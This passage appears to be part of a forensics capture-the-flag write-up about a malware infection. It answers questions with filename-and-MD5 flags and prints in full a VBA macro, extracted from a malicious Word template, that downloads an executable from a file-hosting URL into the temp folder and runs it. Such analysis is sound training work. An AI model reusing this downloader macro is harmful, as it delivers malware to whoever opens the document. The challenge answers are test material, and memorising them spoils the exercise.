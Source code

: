 ```
Answer Q2: AES-XTS_config.ini
```

### Question 3

Q3) What is the file that initialsed the infection?

Format: filename_md5(file)

From the initial analysis we can confirm that hahahah.dotm started the infection. After decrypting it and extracting the macros from the dotm file 

```
Option Explicit

Sub DownloadAndOpenFile()
    Dim url As String
    Dim destinationPath As String
    Dim shell As Object
    url = "https://filebin.net/lfc6u585h3jmqfpp/7WAoNoZw"
    destinationPath = Environ("TEMP") & "\url.exe" 
    With CreateObject("MSXML2.ServerXMLHTTP")
        .Open "GET", url, False
        .send
        If .Status = 200 Then
            Dim stream As Object
            Set stream = CreateObject("ADODB.Stream")
            stream.Open
            stream.Type = 1
            stream.Write .responseBody
            stream.SaveToFile destinationPath, 2
            stream.Close
        End If
    End With
    Set shell = CreateObject("WScript.Shell")
    shell.Run Chr(34) & destinationPath & Chr(34), 1, False
End Sub
```
We can see that this VBA macro downloads a file names it url.exe from the specified URL(https://filebin.net/lfc6u585h3jmqfpp/7WAoNoZw) to the user's temp folder (%TEMP%) and then executes the downloaded file.

```
Answer Q3: hahahah.dotm_b835a27ce7326b4715de910336d64233
```

### Question 4

Q4) What is the file that further spreads the infection and what is it packed with?

Format : filename_md5(file)_packer-name(all-lowercase)

From the Macros we can see that the infection was further spread with the help of url.exe stored in the %TEMP% folder.

